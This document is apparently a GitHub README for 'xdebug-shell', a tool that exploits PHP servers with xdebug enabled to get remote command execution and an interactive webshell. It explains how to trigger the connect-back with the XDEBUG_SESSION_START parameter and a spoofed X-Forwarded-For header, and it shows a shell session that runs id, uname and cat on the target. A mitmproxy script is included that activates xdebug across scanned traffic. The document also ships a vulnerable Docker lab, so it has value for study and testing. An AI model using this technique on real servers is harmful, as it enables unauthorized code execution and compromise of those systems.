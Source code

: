 # xdebug-shell

Exploiting xdebug to get remote command execution is not new:

* https://redshark1802.com/blog/2015/11/13/xpwn-exploiting-xdebug-enabled-servers/
* https://ricterz.me/posts/Xdebug:%20A%20Tiny%20Attack%20Surface

It is always cool to have a webshell.

## What is xdebug ?

Xdebug is a php extension that allows to debug php pages, remotely by using DGBp protocol. Code repository is located at [xdebug](https://github.com/xdebug/xdebug).

Code execution is possible via injections that exist in `eval` or `property_set` xdebug commands.

## How to activate it ?

For a reverse shell to work, xdebug configuration needs to include:

```
xdebug.remote_enable=true
xdebug.remote_connect_back=true
```

In order to start xdebug, add `XDEBUG_SESSION_START` to query parameters. Remote server will try to connect back to user on port tcp/9000. The endpoint where to connect to can be altered using `X-Forwarded-For` header. For example, if using Docker for Mac to run the xdebug Docker image supplied, you may use `docker.for.mac.localhost` as value.

## How to start a Docker vulnerable image ?

Go into vulnerable-xdebug and type:

```
$ docker build -t vulnerable-xdebug .
$ docker run -ti --rm -p 8080:80 vulnerable-xdebug
AH00558: httpd: Could not reliably determine the server's fully qualified domain name, using 172.17.0.2. Set the 'ServerName' directive globally to suppress this message
```

[Dockerfile](vulnerable-xdebug/Dockerfile) is based on Centos 7.4.1708 image.

## Get a webshell

```
$ ./xdebug-shell.py --local-host=docker.for.mac.localhost --url=http://127.0.0.1:8080/phpinfo.php
>> id
uid=48(apache) gid=48(apache) groups=48(apache)
>> pwd
/var/www/html
>> uname -a
Linux b8db2353f675 4.9.60-linuxkit-aufs #1 SMP Mon Nov 6 16:00:12 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
>> cat /etc/redhat-release
CentOS Linux release 7.4.1708 (Core)
>> lsmod
Module                  Size  Used by
xfrm_user              32768  1
xfrm_algo              16384  1 xfrm_user
>> ^D
```

## How to scan for xdebug ?

You can use this mitmproxy script [activate-xdebug.py](activate-xdebug.py):

```
$ mitmdump -dd -s "./activate-xdebug.py docker.for.mac.localhost"
```

The script will add xdebug parameter, and add X-Forwarded-For header for the reverse connect to succeed.

